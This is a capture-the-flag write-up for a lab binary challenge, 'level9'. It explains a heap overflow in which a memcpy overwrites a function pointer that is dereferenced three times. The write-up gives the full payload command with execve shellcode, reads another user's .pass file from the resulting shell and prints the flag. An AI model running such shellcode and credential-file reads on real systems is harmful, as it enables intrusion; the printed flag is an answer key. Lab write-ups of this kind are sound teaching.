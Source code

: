 # level9

The executable does the following :

- Allocate two `unsigned int`, `s1` and `s2`
- Run `memcpy` on `s1 + 4`
- Run `s2` as a function after three dereferences, or `***s2()`

We'll use `memcpy` to overflow in `s2`, and then make it point (after two jumps) to a shellcode in the buffer.

## **The addresses**

In `gdb`, we get the addresses of `s1` and `s2` using breaks after the `new` :

- `s1` is at `0x804a008`
- `s2` is at `0x804a078`

`0x78 - 0x08 = 0x70 = 112`, and `memcpy` runs at `s1 + 4`, so we have `108` characters before our spoofed address.

Reusing our 45-byte shellcode from before, we can start with a simple buffer :

```
NOP * 63 (nopesled) + SHELLCODE (45 bytes) + 0x0804a00c (address of s1 + 4)
 ^------------------------------------------------'
```

## **The jumps**

But we have to remember : this would only work if the code ran `*s2()`.

The address dereferenced (here `0x0804a00c`, the beginning of our buffer) will be dereferenced as well. We make it point to its neighbor :

```
     ,--------v
0x0804a010 + NOP * 59 (nopesled) + SHELLCODE (45 bytes) + 0x0804a00c (address of s1 + 4)
     ^---------------------------------------------------------'
```

Now this works for `**s2()`.

We add one more jump :

```
     ,------------v
0x0804a010 + 0x0804a014 + NOP * 55 (nopesled) + SHELLCODE (45 bytes) + 0x0804a00c (address of s1 + 4)
     ^             `-------^                                                |
     `----------------------------------------------------------------------'
```

Now it works for `***s2()`.

We format this to use it and run :

```
./level9 $(python -c 'print("\x10\xa0\x04\x08" + "\x14\xa0\x04\x08" + "\x90" * 55 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x0c\xa0\x04\x08")')
```

## **The flag**

It works ! In our interactive shell, we run :

```
cat /home/user/bonus0/.pass
```

... and get the flag for `level9` :

```
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```